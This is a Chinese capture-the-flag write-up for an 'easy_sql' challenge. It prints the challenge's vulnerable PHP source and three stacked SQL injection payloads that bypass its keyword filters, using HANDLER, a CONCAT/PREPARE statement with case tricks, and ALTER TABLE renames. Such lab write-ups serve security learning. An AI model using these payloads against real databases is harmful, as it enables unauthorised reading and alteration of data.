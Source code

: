# 知识点
### handler 代替 select
handler [https://www.cnblogs.com/taoyaostudy/p/13479367.html](https://www.cnblogs.com/taoyaostudy/p/13479367.html)
### 堆叠注入
### 预编译
```sql
set用于设置变量名和值
prepare用于预备一个语句，并赋予名称，以后可以引用该语句
execute执行语句
deallocate prepare用来释放掉预处理的语句
```
### alter 更改表名列名
```plsql
修改表名(将表名user改为users)
alter table user rename to users;

修改列名(将字段名username改为name)
alter table users change uesrname name varchar(30);
```
# 思路
### 源码
```bash
<html>

<head>
    <meta charset="UTF-8">
    <title>easy_sql</title>
</head>

<body>
<h1>取材于某次真实环境渗透，只说一句话：开发和安全缺一不可</h1>
<!-- sqlmap是没有灵魂的 -->
<form method="get">
    姿势: <input type="text" name="inject" value="1">
    <input type="submit">
</form>

<pre>
<?php
function waf1($inject) {
    preg_match("/select|update|delete|drop|insert|where|\./i",$inject) && die('return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);');
}

function waf2($inject) {
    strstr($inject, "set") && strstr($inject, "prepare") && die('strstr($inject, "set") && strstr($inject, "prepare")');
}

if(isset($_GET['inject'])) {
    $id = $_GET['inject'];
    waf1($id);
    waf2($id);
    $mysqli = new mysqli("127.0.0.1","root","root","supersqli");
    //多条sql语句
    $sql = "select * from `words` where id = '$id';";

    $res = $mysqli->multi_query($sql);

    if ($res){//使用multi_query()执行一条或多条sql语句
      do{
        if ($rs = $mysqli->store_result()){//store_result()方法获取第一条sql语句查询结果
          while ($row = $rs->fetch_row()){
            var_dump($row);
            echo "<br>";
          }
          $rs->Close(); //关闭结果集
          if ($mysqli->more_results()){  //判断是否还有更多结果集
            echo "<hr>";
          }
        }
      }while($mysqli->next_result()); //next_result()方法获取下一结果集，返回bool值
    } else {
      echo "error ".$mysqli->errno." : ".$mysqli->error;
    }
    $mysqli->close();  //关闭数据库连接
}


?>
</pre>

</body>

</html>

```
### 方法一 handler 替换 select
```bash
?inject=';show databases;show tables;show columns from `1919810931114514`;handler `1919810931114514` open; handler `1919810931114514` read first;#
```
## ![image.png](./images/20231017_2351298924.png)
### 方法二 预编译
```sql
?inject=-1';Set @sql = CONCAT('se','lect * from `1919810931114514`;');Prepare stmt from @sql;EXECUTE stmt;#

拆分开来如下：
-1';
Set @sql = CONCAT('se','lect * from `1919810931114514`;');
Prepare stmt from @sql;
EXECUTE stmt;
#

```
因为对"set"和"prepare"进行了过滤，所以对其进行大小写绕过
```php
strstr($inject, "set") && strstr($inject, "prepare")
```
![image.png](./images/20231017_2351303805.png)
### 方法三 **更改表名列名**
```plsql
1'; alter table words rename to words1;alter table `1919810931114514` rename to words;alter table words change flag id varchar(50);#

拆分开来如下
1';
alter table words rename to words1;
alter table `1919810931114514` rename to words;
alter table words change flag id varchar(50);
#
```
![image.png](./images/20231017_2351316093.png)
